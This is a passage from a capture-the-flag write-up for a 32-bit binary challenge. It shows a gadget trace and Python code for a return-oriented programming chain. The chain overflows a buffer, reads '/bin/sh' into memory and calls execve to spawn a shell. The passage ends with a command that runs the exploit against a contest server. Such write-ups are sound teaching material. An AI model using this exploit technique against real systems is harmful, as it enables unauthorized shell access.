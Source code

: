 ```bash
add %ecx, %ecx ---> 0x804849a; n = 1050944( 0x100940 )
add %ecx, %ecx ---> 0x804849a; n = 525472( 0x804a0 )
add %ecx, %ecx ---> 0x804849a; n = 262736( 0x40250 )
add %ecx, %ecx ---> 0x804849a; n = 131368( 0x20128 )
add %ecx, %ecx ---> 0x804849a; n = 65684( 0x10094 )
add %ecx, %ecx ---> 0x804849a; n = 32842( 0x804a )
inc %ecx ---> 0x080484d7; n = 16421( 0x4025 )
add %ecx, %ecx ---> 0x804849a; n = 16420( 0x4024 )
add %ecx, %ecx ---> 0x804849a; n = 8210( 0x2012 )
inc %ecx ---> 0x080484d7; n = 4105( 0x1009 )
add %ecx, %ecx ---> 0x804849a; n = 4104( 0x1008 )
add %ecx, %ecx ---> 0x804849a; n = 2052( 0x804 )
add %ecx, %ecx ---> 0x804849a; n = 1026( 0x402 )
inc %ecx ---> 0x080484d7; n = 513( 0x201 )
add %ecx, %ecx ---> 0x804849a; n = 512( 0x200 )
add %ecx, %ecx ---> 0x804849a; n = 256( 0x100 )
add %ecx, %ecx ---> 0x804849a; n = 128( 0x80 )
add %ecx, %ecx ---> 0x804849a; n = 64( 0x40 )
add %ecx, %ecx ---> 0x804849a; n = 32( 0x20 )
add %ecx, %ecx ---> 0x804849a; n = 16( 0x10 )
add %ecx, %ecx ---> 0x804849a; n = 8( 0x8 )
add %ecx, %ecx ---> 0x804849a; n = 4( 0x4 )
n = 2
```
so the ropchain that reads "/bin/sh" string is  
```python
def p32(x): return pack('<I', x)
data = ''
data += "A"*48
data +=  p32(0x0804841a) #clean eax
data +=  p32(0x080484d3)*3 #eax = 3 -> syscall read
data += p32(0x0804835d) #pop ebx
data += p32(0xffffffff) #to be popped to ebx
data += p32(0x080484d5) #set ebx = 0
data +=  p32(0x08048459) #clean edx
data += p32(0x080484d9)*7 #set edx=7
data += p32(0x0804849a)*70 #clean ecx with overflow
data += p32(0x080484d7)*2 #ecx=2
data += p32(0x0804849a)*8 #add ecx , ecx
data += p32(0x080484d7) #inc ECX
data += p32(0x0804849a)*3 
data += p32(0x080484d7) 
data += p32(0x0804849a)*2
data += p32(0x080484d7)
data += p32(0x0804849a)*7
data += p32(0x080484d7)
data += p32(0x0804849a)*6
data += p32(0x080484d0) #int 80
```

and the second part is easier, just set `EAX = 11, EBX = BSS`:
```python
data +=  p32(0x08048459) #clean edx
data += p32(0x0804849a)*100 #reset ecx
data += p32(0x0804835d) #pop ebx
data += p32(0x080484d3)*4 #eax = 11
data += p32(0x080484d0) #int 80
data += '\n'
```
the full exploit is available [here](exploit.py)! 
```bash
$ python exploit.py problems2.2016q1.sctf.io 1338
How many bytes do you want me to read? 

```